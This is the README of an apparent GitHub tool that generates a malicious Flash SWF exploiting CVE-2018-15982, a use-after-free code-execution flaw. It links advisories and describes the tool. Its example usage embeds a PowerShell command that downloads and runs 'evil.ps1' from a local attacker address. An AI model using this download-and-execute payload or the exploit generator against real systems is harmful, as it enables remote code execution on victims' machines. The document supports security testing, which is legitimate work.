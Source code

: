 # Adobe Flash CVE-2018-15982

The script dynamically creates a swf payload for CVE-2018-15982, which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982


Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.0.32/evil.ps1')" test.swf```
  


## Example


Command to download a file:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/cmd.png)


Executing malicious swf:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec.png)

Confirming successful execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec-confirm.png)
